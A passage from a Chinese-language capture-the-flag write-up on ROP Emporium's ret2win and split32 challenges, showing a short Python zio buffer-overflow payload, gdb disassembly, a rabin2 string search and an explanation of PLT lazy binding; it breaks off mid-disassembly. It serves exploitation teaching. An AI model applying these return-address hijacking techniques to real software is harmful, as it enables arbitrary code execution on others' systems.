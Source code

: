 `re2win()` 的地址为 `0x0000000000400811`，payload 如下：
```python
from zio import *

payload = "A"*40 + l64(0x0000000000400811)

io = zio('./ret2win')
io.writeline(payload)
io.read()
```

#### split32
这一题也是 ret2text，但这一次，我们有的是一个 `usefulFunction()` 函数：
```
gdb-peda$ disassemble usefulFunction 
Dump of assembler code for function usefulFunction:
   0x08048649 <+0>:     push   ebp
   0x0804864a <+1>:     mov    ebp,esp
   0x0804864c <+3>:     sub    esp,0x8
   0x0804864f <+6>:     sub    esp,0xc
   0x08048652 <+9>:     push   0x8048747
   0x08048657 <+14>:    call   0x8048430 <system@plt>
   0x0804865c <+19>:    add    esp,0x10
   0x0804865f <+22>:    nop
   0x08048660 <+23>:    leave  
   0x08048661 <+24>:    ret    
End of assembler dump.
```
它调用 `system()` 函数，而我们要做的是给它传递一个参数，执行该参数后可以打印出 flag。

使用 radare2 中的工具 rabin2 在 `.data` 段中搜索字符串：
```
$ rabin2 -z split32 
...
vaddr=0x0804a030 paddr=0x00001030 ordinal=000 sz=18 len=17 section=.data type=ascii string=/bin/cat flag.txt
```
我们发现存在字符串 `/bin/cat flag.txt`，这正是我们需要的，地址为 `0x0804a030`。

下面构造 payload，这里就有两种方法，一种是直接使用调用 `system()` 函数的地址 `0x08048657`，另一种是使用 `system()` 的 plt 地址 `0x8048430`，在前面的章节中我们已经知道了 plt 的延迟绑定机制（1.5.6动态链接），这里我们再回顾一下：

绑定前：
```
gdb-peda$ disassemble system
Dump of assembler code for function system@plt:
   0x08048430 <+0>:     jmp    DWORD PTR ds:0x804a018
   0x08048436 <+6>:     push   0x18
   0x0804843b <+11>:    jmp    0x80483f0
gdb-peda$ x/5x 0x804a018  
0x804a018:      0x08048436      0x08048446      0x08048456      0x08048466
0x804a028:      0x00000000
```
绑定后：
```
gdb-peda$ disassemble system
Dump of assembler code for function system:
   0xf7df9c50 <+0>:     sub    esp,0xc
   0xf7df9c53 <+3>:     mov    eax,DWORD PTR [esp+0x10]
   0xf7df9c57 <+7>:     call   0xf7ef32cd <__x86.get_pc_thunk.dx>
   0xf7df9c5c <+12>:    add    edx,0x1951cc
   0xf7df9c62 <+18>:    test   eax,eax
   0xf7df9c64 <+20>:    je     0xf7df9c70 <system+32>
   0xf7df9c66 <+22>:    add    esp,0xc
   0xf7df9c69 <+25>:    jmp    0xf7df9700 <do_system>
   0xf7df9c6e <+30>:    xchg   ax,ax
   0xf7df9c70 <+32>:    lea    eax,[edx-0x57616]
```